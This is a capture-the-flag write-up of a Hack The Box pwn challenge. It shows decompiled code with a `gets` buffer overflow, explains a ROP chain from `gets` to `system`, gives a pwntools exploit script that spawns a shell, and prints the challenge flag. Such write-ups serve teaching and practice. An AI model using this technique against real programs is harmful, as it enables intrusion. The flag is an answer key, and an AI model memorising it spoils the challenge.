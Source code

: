 ```yaml
---
linkTitle: Sound of Silence
title: Pwn - Sound of Silence
type: docs
---
```


* Difficulty : Medium
* Description : Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!  
* Challenge Files : [](pwn_sound_of_silence.zip)

## Initial Recon 

As you run the binary, it clears the shell and asks for some input, thats it 
```
~The Sound of Silence is mesmerising~

>> some input 
``` 
And these are the protections of the binary : 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
``` 
* No `canary` and no `PIE`, definitely some overflow involved
## Reversing 

Here is the decompiled `main` function by IDA :
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  system("clear && echo -n '~The Sound of Silence is mesmerising~\n\n>> '");
  return gets(v4, argv);
}
```

* The program is simple, it clears the terminal, prints echos some statement and call `gets` on a buffer of 32 bytes 

## Exploit 

* Since `PIE` is disabled we can overflow and ROP to call any of the function (`gets` or `system`)
* In one of the past CTFs I used this trick of calling `gets` after ROP and passing the input to the next function in the ROP chain and this was supposed to be done 
* I'll go in more detail about this trick 

* As you return into `gets` function after buffer overflow this is the current state of the registers 

![ ](image-4.png)  


* If you look closely the value in `rdi` register points to a writable section of libc, so if we execute `gets` in this state the input will be stored on that address in libc 
* After the `gets` function is completed the value in `rdi` remains the same and `rip` will jump to next value on the stack 
* So if we chain the input like 

```
<junk bytes> + <address of gets> + <address of system>
```

* We will be able to call `system` function on our input 
* If you know this trick, you can solve this challenge without even debugging 

* This is how to state of the program looks after taking the input from `gets` 

![alt text](image-6.png)  

Here is the exploit script : 
```python
from pwn import * 

elf = context.binary = ELF('./sound_of_silence')

p = elf.process()

p.sendline(cyclic(40) + p64(elf.sym['gets'])  + p64(elf.sym['system']))

p.interactive()

#$ /bin0sh
```

---  

#### Flag : `HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}`








